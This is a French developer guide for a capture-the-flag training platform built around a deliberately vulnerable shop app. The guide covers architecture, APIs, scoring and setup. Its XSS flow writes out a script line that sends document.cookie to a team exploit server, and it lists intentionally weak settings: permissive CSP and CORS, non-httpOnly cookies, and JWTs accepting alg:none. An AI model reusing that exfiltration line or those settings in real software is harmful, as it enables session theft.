

# Guide Développeur - MidHack BananaShop CTF

Vue d'ensemble technique pour les développeurs souhaitant comprendre, modifier ou étendre la plateforme.

## Architecture globale



La plateforme se compose de **4 services** déployés dans Docker, répliqués par équipe (sauf le dashboard qui est central) :

| Service | Stack | Port | Rôle |
|---------|-------|------|------|
| **BananaShop Client** | React 18, Vite 5, Tailwind 3 | :300N | SPA e-commerce vulnérable |
| **BananaShop Server** | Express 4, better-sqlite3 | :3000 (interne) | API REST avec 14 vulnérabilités OWASP |
| **Exploit Server** | Express 4, SSE, ws, React 18 | :400N | QG de l'équipe (webhook, academy, flags) |
| **Dashboard** | Express 4, ws (WebSocket), React 18 | :5000 | Scoreboard temps réel + admin |

En Docker, le client et le serveur BananaShop sont bundlés dans un seul conteneur (`Dockerfile.site`). En dev local, ce sont deux processus séparés (Vite :5173 + Express :3001).

---

## Structure du projet

```
midhack/
├── client/                   # BananaShop - frontend React
│   ├── src/
│   │   ├── components/       # Navbar, ReviewCard, ProtectedRoute
│   │   ├── context/          # AuthContext (JWT), CartContext (localStorage)
│   │   ├── pages/            # Home, Shop, Product, Login, Register, Dashboard,
│   │   │                     # Cart, SendCredits, TopUp, Admin, Profile
│   │   └── lib/              # branding.jsx (Nantes@Hack toggle)
│   └── vite.config.js        # proxy /api -> :3001
│
├── server/                   # BananaShop - backend Express
│   ├── src/
│   │   ├── index.js          # App setup, middleware, route mounts, static serve
│   │   ├── db.js             # SQLite schema + seed data
│   │   ├── flags.js          # FLAGS, FLAG_EXPLANATIONS, FLAG_POINTS
│   │   ├── middleware/
│   │   │   └── auth.js       # JWT verify (vulnérable : secret faible, alg:none)
│   │   └── routes/
│   │       ├── auth.js       # Register, login (SQLi), logout
│   │       ├── users.js      # Profil (IDOR, Mass Assignment)
│   │       ├── products.js   # Recherche (SQLi UNION, XSS), image (Path Traversal, SSRF)
│   │       ├── reviews.js    # Avis (Stored XSS, Zero Rating)
│   │       ├── credits.js    # Transferts (Business Logic, CSRF)
│   │       ├── admin.js      # Dashboard admin (JWT Forging)
│   │       ├── config.js     # Config debug (Data Exposure)
│   │       ├── flags.js      # Soumission de flags
│   │       └── xss-flag.js   # Endpoint XSS flag
│   └── public/
│       └── secret_flag.txt   # Flag Path Traversal
│
├── exploit-server/           # Serveur d'exploit par équipe
│   ├── src/
│   │   └── index.js          # Express : auth, webhook /log, SSE, flag proxy,
│   │                         # détection JWT volé, WS vers dashboard
│   ├── client/               # Frontend React
│   │   └── src/
│   │       ├── pages/        # Instructions, Challenges, Webhook, SubmitFlag,
│   │       │                 # Academy, Wordlists, Export
│   │       ├── components/   # Layout (+ annonces), AuthGate, LoginPage
│   │       ├── data/         # slides.js (contenu Academy)
│   │       └── lib/          # flags.js (getCapturedFlags, addCapturedFlag)
│   └── data/                 # webhook-requests.json (volume Docker)
│
├── dashboard/                # Scoreboard central
│   ├── src/
│   │   └── index.js          # Express + WebSocket : scoreboard, timer, freeze,
│   │                         # annonces, first blood, admin auth, export, certificats
│   ├── client/               # Frontend React
│   │   └── src/
│   │       ├── components/   # Scoreboard, Header, Timer, Legend, Toasts, AdminPanel
│   │       ├── useScoreboard.js  # Hook WebSocket (teams, events, config)
│   │       └── flags.js      # Re-export shared/flags.json
│   └── data/                 # scoreboard.json (volume Docker)
│
├── shared/                   # Code partagé
│   ├── flags.json            # Catalogue des 14 challenges (points, hints, catégories)
│   └── register-team.js      # Helper POST /api/teams/register
│
├── setup.sh                  # Génère docker-compose.yml, credentials.json/.html
├── Dockerfile.site           # Client build + server (multi-stage)
├── Dockerfile.exploit        # Client build + server (multi-stage)
├── Dockerfile.dashboard      # Client build + server (multi-stage)
└── docker-compose.yml        # Auto-généré par setup.sh
```

---

## Stack technique

| Couche | Technologie | Version |
|--------|-------------|---------|
| Frontend | React | 18.3 |
| Bundler | Vite | 5.4 |
| CSS | Tailwind CSS | 3.4 |
| Backend | Express | 4.21 |
| Base de données | better-sqlite3 | 11.3 |
| Auth | jsonwebtoken + bcryptjs | 9.0 / 2.4 |
| WebSocket | ws | 8.18 |
| Confetti | canvas-confetti | 1.9 |
| Conteneurs | Docker + Docker Compose | - |

### Thème Tailwind partagé

Les trois clients utilisent une palette commune définie dans `tailwind.config.js` :

```js
colors: {
  dark: '#0E0B11',
  'dark-light': '#161222',
  accent: '#FABB5C',    // jaune doré
  cyan: '#0593A7',
  terracotta: '#A1540D',
}
fontFamily: {
  heading: ['Exo', 'sans-serif'],
  body: ['Figtree', 'sans-serif'],
  mono: ['Source Code Pro', 'monospace'],
}
```

---

## Base de données

**Driver** : better-sqlite3 avec WAL mode et foreign keys activées.

**Fichier** : `server/src/db.js` - Crée le schéma et seed les données au premier démarrage.

### Schéma

```sql
users       (id, username, password_hash, email, bio, role, balance, created_at)
products    (id, name, description, price, image_url, stock)
reviews     (id, product_id FK, user_id FK, content, rating, created_at)
transactions(id, from_user_id FK, to_user_id FK, amount, type, created_at)
secrets     (id, key, value)  -- contient le flag SQLI_UNION
```

### Données seed

| Utilisateur | Mot de passe | Rôle | Balance | Notes |
|-------------|-------------|------|---------|-------|
| admin | SuperSecretAdmin123! | admin | 99999 | - |
| john | john123 | user | 500 | - |
| flag_holder | unfindable_password_42! | user | 0 | Flag IDOR dans la bio |

5 produits (Organic Banana 10$ -> Diamond Banana 10000$) et le flag SQLI_UNION dans la table `secrets`.

---

## Flux de communication

### 1. Flux principal (participant)

```
Navigateur ──HTTP──> BananaShop Client (:300N)
                         │
                         │ /api/*
                         ▼
                    BananaShop Server (:3000)
                         │
                    ┌────┴────┐
                    ▼         ▼
               SQLite    Dashboard (:5000)
                         POST /api/capture
                         POST /api/teams/register
```

### 2. Flux exploit-server

```
Navigateur ──HTTP──> Exploit Server (:400N)
                         │
                    ┌────┼────────────┐
                    ▼    ▼            ▼
              /api/flags/submit   /log (webhook)    SSE /events
              proxy vers site    détecte JWT volé   broadcast temps réel
                    │                 │
                    ▼                 ▼
              BananaShop Server   Dashboard (:5000)
                                  POST /api/capture (cookie theft)
```

### 3. Flux dashboard

```
Dashboard (:5000)
    │
    ├── WebSocket /ws ──broadcast──> Navigateurs (scoreboard projeté)
    │                                Exploit Servers (annonces → SSE → étudiants)
    │
    ├── POST /api/capture ◄── BananaShop Server (flag validé)
    │                     ◄── Exploit Server (cookie theft auto-détecté)
    │
    └── Admin Panel (timer, annonces, freeze, export, certificats)
```

### 4. Flux d'attaque XSS / Cookie Theft

```
Attaquant poste <script> dans un avis (Stored XSS)
    │
    ▼
Victime visite la page produit
    │
    ▼
Script s'exécute : fetch("http://exploit-server:400N/log?c=" + document.cookie)
    │
    ▼
Exploit Server détecte le JWT (regex eyJ...) dans /log
    │
    ▼
Auto-POST vers Dashboard /api/capture avec flag COOKIE_THEFT
```

---

## Variables d'environnement

### BananaShop Server

| Variable | Défaut | Description |
|----------|--------|-------------|
| `PORT` | 3000 | Port Express |
| `DASHBOARD_URL` | http://localhost:5000 | URL du dashboard |
| `TEAM_NAME` | Unknown Team | Nom de l'équipe |

### Exploit Server

| Variable | Défaut | Description |
|----------|--------|-------------|
| `PORT` | 4000 | Port Express |
| `TEAM_PASSWORD` | team-default | Mot de passe de l'équipe |
| `SITE_URL` | http://localhost:3001 | URL du site BananaShop |
| `DASHBOARD_URL` | http://localhost:5000 | URL du dashboard |
| `TEAM_NAME` | Unknown Team | Nom de l'équipe |

### Dashboard

| Variable | Défaut | Description |
|----------|--------|-------------|
| `PORT` | 5000 | Port Express + WebSocket |
| `ADMIN_PASSWORD` | admin | Mot de passe panel admin |
| `EVENT_TITLE` | BananaShop CTF | Titre sur le scoreboard |
| `HINT_PENALTY` | 3 | Points retirés par indice |

### Build-time (Vite)

| Variable | Défaut | Description |
|----------|--------|-------------|
| `VITE_NANTES_HACK` | 0 | Active le branding Nantes@Hack (0/1) |

---

## Développement local

### Installation

```bash
npm run install:all    # installe les dépendances des 4 services
```

### Lancement

```bash
npm run dev            # lance les 4 services en parallèle (concurrently)
```

Services en dev :

| Service | URL | Proxy vers |
|---------|-----|------------|
| Client (Vite) | http://localhost:5173 | /api -> :3001 |
| Server | http://localhost:3001 | - |
| Exploit client (Vite) | http://localhost:5175 | /api, /events, /log -> :4000 |
| Exploit server | http://localhost:4000 | - |
| Dashboard client (Vite) | http://localhost:5174 | /api, /ws -> :5000 |
| Dashboard server | http://localhost:5000 | - |

### Lancement individuel

```bash
cd server && PORT=3001 npm run dev       # node --watch
cd client && npm run dev                  # Vite :5173
cd exploit-server && npm run dev          # server :4000 + Vite :5175
cd dashboard && npm run dev               # server :5000 + Vite :5174
```

---

## Docker

### Dockerfiles (tous multi-stage)

| Dockerfile | Etape build | Etape runtime | Port |
|------------|-------------|---------------|------|
| `Dockerfile.site` | Vite build du client | Express sert le build + API | 3000 |
| `Dockerfile.exploit` | Vite build du client exploit | Express + SSE + client statique | 4000 |
| `Dockerfile.dashboard` | Vite build du client dashboard | Express + WebSocket + client statique | 5000 |

Base image : `node:20-alpine`. Le site nécessite `python3 make g++` pour compiler `better-sqlite3`.

### Génération

```bash
./setup.sh 6              # 6 équipes
./setup.sh 6 --deploy     # + docker compose up --build -d
./setup.sh --reset         # supprime conteneurs, volumes, fichiers générés
```

Le `docker-compose.yml` généré inclut :
- Health checks (`wget` sur les endpoints principaux)
- Limites mémoire (256MB site/dashboard, 128MB exploit)
- Volumes persistants (`dashboard-data`, `exploit-teamN-data`)
- `restart: unless-stopped`
- Bloc `x-event-config` pour la configuration éditable

### Ports exposés (N = numéro d'équipe)

| Service | Port |
|---------|------|
| Dashboard | 5000 |
| Site team N | 3000 + N |
| Exploit team N | 4000 + N |

---

## API du Dashboard

Toutes les routes admin nécessitent le header `X-Admin-Token` ou le query param `?token=`.

| Méthode | Route | Auth | Description |
|---------|-------|------|-------------|
| POST | /api/teams/register | - | Enregistrer une équipe |
| POST | /api/capture | - | Enregistrer une capture (first blood auto) |
| POST | /api/hint | - | Enregistrer un indice utilisé |
| GET | /api/scoreboard | - | Classement (+ config) |
| GET | /api/timer | - | Etat du timer |
| POST | /api/timer/start | admin | Lancer le timer `{duration: minutes}` |
| POST | /api/timer/stop | admin | Arrêter le timer |
| POST | /api/reset | admin | Réinitialiser les scores |
| POST | /api/scoreboard/freeze | admin | Geler le classement public |
| POST | /api/scoreboard/unfreeze | admin | Dégeler |
| POST | /api/announce | admin | Broadcast un message `{message}` |
| POST | /api/admin/login | - | Vérifier le mot de passe admin |
| GET | /api/admin/status | admin | Statut (équipes, frozen, timer) |
| GET | /api/export | admin | Export JSON ou CSV (`?format=csv`) |
| GET | /api/certificates | admin | Certificats HTML imprimables |

### Événements WebSocket (`/ws`)

| Type | Payload | Déclencheur |
|------|---------|-------------|
| `scoreboard` | `{teams, config}` | Connexion initiale + chaque capture/hint |
| `capture` | `{teamName, flag, flagId, points, firstBlood}` | Flag validé |
| `first_blood` | `{teamName, flagId, flagName, points, bonus}` | Première capture d'un flag |
| `hint` | `{teamName, challengeName}` | Indice utilisé |
| `timer` | `{endTime, duration, running}` | Timer start/stop |
| `announcement` | `{message, timestamp}` | Annonce admin |
| `freeze` | `{frozen}` | Gel/dégel du scoreboard |
| `reset` | `{}` | Réinitialisation |

### Calcul du score

```
Score = somme(points des captures) - (nombre d'indices * HINT_PENALTY)
```

First Blood : +5 points bonus si première équipe à capturer un flag donné.

Classement : score DESC, puis nombre de captures DESC, puis date de première capture ASC.

---

## API de l'Exploit Server

| Méthode | Route | Auth | Description |
|---------|-------|------|-------------|
| POST | /api/login | - | Connexion équipe (cookie exploit_session) |
| POST | /api/logout | oui | Déconnexion |
| GET | /api/auth/check | - | Vérifier la session |
| POST | /api/flags/submit | oui | Proxy vers BananaShop /api/flags/submit |
| POST | /api/hint | oui | Proxy vers Dashboard /api/hint |
| GET | /api/explanation/:flagId | oui | Explication Fix-It (danger, fix, OWASP, code) |
| GET | /api/requests | oui | Liste des requêtes webhook |
| POST | /api/requests/clear | oui | Vider les requêtes |
| GET | /events | oui | SSE (webhooks + annonces du dashboard) |
| ALL | /log, /log/* | - | Endpoint webhook (log + détection cookie theft) |

---

## Système de challenges

### Catalogue (`shared/flags.json`)

14 challenges répartis en 4 catégories : `authz` (violet), `injection` (rouge), `misconfig` (bleu), `other` (gris).

Chaque challenge a : `flagId`, `name`, `points` (10-20), `difficulty` (Facile/Moyen/Difficile), `category`, `hint`.

### Déverrouillage progressif (client-side)

- **Facile** : toujours visible
- **Moyen** : après 2 captures Facile
- **Difficile** : après 2 captures Moyen

Logique dans `exploit-server/client/src/pages/ChallengesPage.jsx`, basée sur `localStorage` (`ctf_captured_flags`).

### Fix-It Mode

Après capture, le bouton Fix-It affiche une modale avec `danger`, `fix`, `owasp`, `vulnerableCode` et `fixedCode` (side-by-side). Les données viennent de `FLAG_EXPLANATIONS` dans `server/src/flags.js`, exposées via `GET /api/explanation/:flagId`.

### Détection automatique du Cookie Theft

L'exploit-server scanne chaque requête `/log` avec la regex `eyJ[A-Za-z0-9_-]+\.eyJ[A-Za-z0-9_-]+\.[A-Za-z0-9_-]*` pour détecter un JWT volé. Si trouvé, il POST automatiquement vers le dashboard `/api/capture` avec le flag `COOKIE_THEFT`.

---

## Sécurité intentionnelle

Le serveur BananaShop est **volontairement vulnérable**. Chaque vulnérabilité est commentée dans le code avec `// VULNERABLE`.

### Middleware de sécurité (intentionnellement faible)

```js
// CSP permissive (permet XSS)
"default-src * 'unsafe-inline' 'unsafe-eval'"

// X-Frame-Options invalide (permet CSRF iframe)
'ALLOW'

// Cookie JWT non-httpOnly (permet cookie theft via JS)
httpOnly: false

// CORS permissif
origin: true, credentials: true

// JWT : secret faible + accepte alg:none
```

---

## Ajouter un nouveau challenge

1. **Ajouter le flag** dans `server/src/flags.js` : clé dans `FLAGS`, nom dans `FLAG_NAMES`, points dans `FLAG_POINTS`, explication dans `FLAG_EXPLANATIONS`
2. **Implémenter la vulnérabilité** dans la route appropriée de `server/src/routes/`
3. **Ajouter au catalogue** dans `shared/flags.json` (flagId, name, points, difficulty, category, hint)
4. **Tester** : vérifier que la soumission du flag via l'exploit-server fonctionne et que le dashboard l'enregistre
